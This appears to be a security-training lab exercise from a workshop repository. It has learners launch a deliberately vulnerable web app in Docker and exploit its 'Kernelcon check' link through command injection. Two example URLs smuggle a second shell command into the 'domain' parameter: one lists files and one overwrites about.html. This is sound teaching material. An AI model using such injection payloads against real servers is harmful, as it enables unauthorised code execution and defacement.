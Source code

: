 # Exercise #3

## Taking advantage of devlopers' misconfigurations.

### Preface: "I get it!" Developers have it hard, they are expected to very rapidly and correctly churn out business requirements "AS CODE". Sometimes, this can lead to shortcuts or just a "plain old copied sample" as code just to meet a need.
![Oreilly Funny](Files/images/oreilly_funny.jpg)
Let's look at the same exercise again from the perspective of the attacker.

#### Here we go ...

- Change directory so you are in the __<REPO_ROOT>/Exercises/Break/Files/break_e3/__ directory.
- Do a ```ls``` command to make sure, you should see:
```
about.html      break_e3.yml    dsvw.py     index.html
```
This is the __same__ code sample as before, just copied here for completeness and to keep stuff separate. Anyway ~
- Run the docker-compose command with our defnition file.
```
docker-compose -f break_e3.yml up -d
```
This will start up a docker container with our app running inside it. Now go navigate your web browser to view it.
You can do this in many ways, but two come to mind. Use either your "host" browser or make use of the firefox browser within kali linux.

TO use your host browser, you will need to find your kali linux IP with a command something like this:
![ifconfig eth0](Files/images/kali_ifconfig.jpg)
or just find it via the ```ifconfig eth0``` command.
Or again make use of the firefox browser within kali linux:
![kali firefox](Files/images/kali_firefox.jpg)

Then navigate to your new dev site: ```http://127.0.0.1:1234```
![kali firefox](Files/images/kali_e2_site.jpg)

Or use your Host browser if you want ```http://<kali ip>:1234/```

## Did you find it?
### Looks like there is a R.C.E. vulnrability in the "Kernelcon check" link. if you were to add a ```;``` followed by additional code; you gain code execution on the webserver. Very Bad! Try it:
```
http://<your IP>:1234/?domain=kernelcon.org%3B%20ls
```
or try this one:
```
http://<your IP>:1234/?domain=kernelcon.org%3B%20echo%20%22(%E2%95%AF%C2%B0%E2%96%A1%C2%B0)%E2%95%AF%EF%B8%B5%20%E2%94%BB%E2%94%81%E2%94%BB%22%20%3E%20app%2Fabout.html
```
now go back and click on that __About us__ link.

## In and of itself, that R.C.E. IS bad, but could be contained within the container. The REAL issue steams from the fact that the developer left "read/write" access to their dev directory. (more on that later).

## When you are done, just pull down your dev. env. via the __docker-compose__ command again.
```
docker-compose -f break_e3.yml down
```

[Return to schedule](../../Docs/SCHEDULE.md)
